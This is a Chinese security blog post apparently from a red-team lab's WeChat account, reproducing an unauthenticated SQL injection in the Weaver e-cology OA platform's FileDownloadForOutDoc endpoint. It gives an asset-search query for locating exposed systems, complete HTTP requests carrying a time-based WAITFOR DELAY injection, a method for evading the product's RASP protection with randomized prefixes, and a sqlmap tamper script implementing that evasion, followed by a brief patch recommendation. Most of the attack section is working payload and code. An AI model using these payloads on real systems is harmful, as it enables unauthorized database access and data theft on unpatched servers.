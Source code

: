 #  【漏洞复现】泛微e-cology 前台未授权sql注入

原创 请君江南扫落花  [ 暗魂攻防实验室 ](javascript:void\(0\);)

**暗魂攻防实验室** ![]()

微信号 anhunsec-red

功能介绍 专注于网络空间安全、红蓝攻防对抗、渗透测试等技术研究

____

___发表于_

收录于合集 #漏洞复现 10个

**点击蓝字**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093502.png)
**关注我们**

![]()

  

  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093503.png)  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093504.png)
**微信搜一搜**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093505.png)
暗魂攻防实验室

## 漏洞介绍

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。

泛微e-cology FileDownloadForOutDoc
未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

## 影响版本

部分e-cology 8且补丁版本<10.58.0

部分e-cology 9且补丁版本<10.58.0

  

## 资产测绘

app="泛微-协同商务系统"

  

## 漏洞复现

1.访问泛微OA业务系统

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093506.png)

2.检测payload

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid=3+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1

3.由于泛微OA启用了RASP，同一个请求执行两次会被拦截，所以需要在请求包中添加随机参数；下面是RASP的介绍

RASP是Runtime Application Self-
Protection（运行时应用自我保护）的缩写，是一种用于保护应用程序免受攻击的安全技术。它是在应用程序运行时进行安全检测和保护的一种方法，可以在应用程序本身内部或与应用程序紧密集成的组件中实现。

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid={random}+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1

4.加载tamper脚本进行注入

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    import randomfrom lib.core.enums import PRIORITY  
    __priority__ = PRIORITY.HIGH  
      
    def tamper(payload, **kwargs):  res = ""  ran = random.randint(1,2**20)  res = str(ran)+payload  return res

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093508.png)

## 修复建议

目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。

https://www.weaver.com.cn/cs/securityDownload.asp#

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093509.png)  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093510.png)

●[浅谈两种复现方式实现PDF_XSS](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487941&idx=1&sn=3ae42f268164ca46de5eb5c5d3f841bb&chksm=c1f9f93ef68e702824548e6882a335a946fbfcd84f8e697744ff1b21da4d86c53178129140bd&scene=21#wechat_redirect)

●[anhunsec_redteam_V2.5
正式版红队渗透系统简介](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487905&idx=1&sn=e15c3473d01e3c3df522e3edcf81f198&chksm=c1f9f95af68e704ccfd7daa07e310a2de04cb741d3b946a3321c2c4eb7ea062928495b9fc063&scene=21#wechat_redirect)

●[一文读懂面试官都在问的shiro漏洞](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487895&idx=1&sn=f3b1e70ae912d804c4ae6d38e3d4c728&chksm=c1f9f96cf68e707aafebbd1822d9d83bb316d5f7c26fe120576eca24f15e38c09ba0e6c7b47a&scene=21#wechat_redirect)

●[记一次小程序渗透测试](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487893&idx=1&sn=2ab5b85f426c11767045e54d193157f8&chksm=c1f9f96ef68e70781bce82144f65db363f28507add488da1b0c34c4c3581094ecfad51933e38&scene=21#wechat_redirect)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093511.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093512.png)微信搜一搜![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093513.png)暗魂攻防实验室

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

